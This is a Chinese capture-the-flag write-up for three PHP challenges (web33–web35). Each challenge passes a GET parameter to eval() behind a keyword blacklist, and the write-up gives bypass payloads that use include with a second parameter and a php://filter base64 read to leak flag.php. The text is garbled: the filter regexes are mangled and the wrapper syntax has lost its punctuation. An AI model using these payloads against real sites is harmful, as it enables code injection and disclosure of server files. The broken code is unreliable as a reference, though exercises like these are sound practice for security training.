 c=include$_GET[a]&a=phpfilterread=convert.base64-encoderesource=flag.php
web33~文件包含绕过
源码：

php


error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match(flagsystemphpcatsortshell. '`echo;(i, $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
多过滤了一个双引号，

直接用上一题的 payload

c=include$_GET[a]&a=phpfilterread=convert.base64-encoderesource=flag.php

c=include$_GET[1]&1=phpfilterread=convert.base64-encoderesource=flag.php
web34~文件包含绕过
源码：

php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match(flagsystemphpcatsortshell. '`echo;(i, $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
过滤多了一个冒号，也是上一关payload 。

c=include$_GET[a]&a=phpfilterread=convert.base64-encoderesource=flag.php

c=include$_GET[1]&1=phpfilterread=convert.base64-encoderesource=flag.php
web35~文件包含绕过
php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match(flagsystemphpcatsortshell. '`echo;(=i, $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
多过滤了、=。没啥用，直接打
